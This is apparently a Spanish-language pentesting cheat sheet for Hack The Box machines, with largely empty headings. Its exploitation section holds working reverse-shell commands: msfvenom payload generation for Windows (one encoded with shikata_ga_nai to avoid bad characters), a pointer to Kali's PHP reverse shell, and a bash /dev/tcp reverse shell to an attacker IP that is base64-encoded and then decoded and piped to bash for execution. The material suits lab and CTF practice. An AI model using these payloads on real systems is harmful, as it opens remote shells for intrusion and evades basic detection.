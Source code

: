 
## DESCRIPTION



#### Mas información


## EXPLOITATION

 msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.8 LPORT=443 -f exe -o shell.exe                     


BUILD A PAYLOAD REVERSE SHELL:

• Reverse Shell Path on Kali: usr/share/webshells/php/php-reverse-shell.php
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.22 LPORT=443 -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -f c --smallest
```

SEND REVERSE SHELL ENCODE WITH BASE64:
         • Crear: echo "bash -i >& /dev/tcp/10.10.14.38/1234 0>&1" | base64
         • Ejecutar con echo: echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zOC8xMjM0IDA+JjEK | base64 -d | bash
## MACHINES

* Hack The Box: 

**!!NOTA IMPORTANTE!!** 
